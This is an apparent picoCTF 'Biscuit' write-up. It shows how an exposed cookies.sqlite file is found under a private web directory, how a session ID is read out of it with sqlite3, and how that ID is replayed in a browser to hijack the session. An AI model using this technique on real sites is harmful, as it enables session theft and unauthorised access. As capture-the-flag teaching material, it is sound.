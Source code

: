 <H1>Biscuit</H1>
<B>Your friend has a personal website. Fortunately for you, he is a bit of a noob when it comes to hosting a website. Can you find out what he is hiding? Website.</B>

>Hints:
>
>Viewing the source of the website is usually a good start.

Clicking the link to the website brings us to http://shell2017.picoctf.com:19997/. We're presented with a webpage with "Access Denied" and ginger-breadman background.

![](../../resources/2b3a6353873da53d91df2ea0239da5f4.png)

Not really anything we can do here, so lets inspect the source.

```html
<html>

<!-- Storing stuff in the same directory as your web server doesn't seem like a good idea -->
<!-- Thankfully, we use a hidden one that is super PRIVATE, to protect our cookies.sqlite file -->
<style>
body{
	background-image: url("private/image.png");
}
</style>

<body >

<div style='background:white;margin: auto;border: 1px solid red;width: 600px; margin-top: 20%;' >
<center>
<form style="font-size: 40px; ">
Access Denied</form>
</center>
</div>

</body>

</html>
```

In the comments we can see that the webpage developer has stored the site's cookies.sqlite file on the webserver. Lets see if we can access it:

```http
http://shell2017.picoctf.com:19997/cookies.sqlite
```

We are given a "Not Found" error, so no luck here. Apparently the cookie file is hidden in a super PRIVATE location, so lets try:

```http
http://shell2017.picoctf.com:19997/private/cookies.sqlite
```

Bingo. We have the cookies.sqlite file. So what can we do with this thing? Cookies often store session IDs so perhaps we can pull one out and hijack the session.

We begin with looking at the data stored in the cookie file:

```bash
sqlite3 cookies.sqlite
```
With a bit of Googling, we find that cookies.sqlite files are often generated by Mozilla Firefox and that it should contain a table called "moz_cookies". We can confirm this by running:

```sql
.tables
```

Lets try reading this table:

```sql
SELECT * FROM moz_cookies;
```

We're presented with the following information.
`
1|localhost|0|0|ID|F3MAqpWxIvESiUNLHsflVd|localhost|/|1489365457|1489279130600290|1489279057101857|0|0
`
But what do these values relate to? We can determine the table schema by running:

```sql
.schema moz_cookies
```
`CREATE TABLE moz_cookies (id INTEGER PRIMARY KEY, baseDomain TEXT, appId INTEGER DEFAULT 0, inBrowserElement INTEGER DEFAULT 0, name TEXT, value TEXT, host TEXT, path TEXT, expiry INTEGER, lastAccessed INTEGER, creationTime INTEGER, isSecure INTEGER, isHttpOnly INTEGER, CONSTRAINT moz_uniqueid UNIQUE (name, host, path, appId, inBrowserElement));
CREATE INDEX moz_basedomain ON moz_cookies (baseDomain, appId, inBrowserElement);
`

Turns out the only field of interest to us is the "value" field, this should be the session ID. So now that we (assumingly) have the session ID our next step is to use it to hijack a session. We can use a Chrome extension: EditThisCookie (http://www.editthiscookie.com/), to do it for us. So lets load up the website again and insert this value in:

![](../../resources/7ae420517ac9e1d8d67836477f77191f.png)

Now we just have to refresh the page to get in.

![](../../resources/f55a374f0aa2b9f7cd088fb070070ce5.png)

We now have our flag.